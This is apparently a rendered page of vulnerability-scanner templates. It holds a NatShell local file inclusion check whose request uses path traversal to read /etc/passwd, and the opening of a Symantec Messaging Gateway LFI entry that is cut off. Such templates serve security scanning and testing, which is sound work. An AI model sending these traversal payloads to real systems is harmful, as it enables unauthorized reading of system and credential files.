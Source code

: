 **Type - status**

- status
  1. 200

---

# NatShell - Local File Inclusion

## Description

- NatShell is vulnerable to local file inclusion.
- severity - high
- tags - natshell,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/download.php?file=../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. toor:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Symantec Messaging Gateway \<=10.6.1 - Local File Inclusion

## Description

- Symantec Messaging Gateway 10.6.1 and prior are vulnerable to local file inclusion.
- severity - high
- tags - lfi,messaging,symantec

## Requests

- Method - GET

### URL

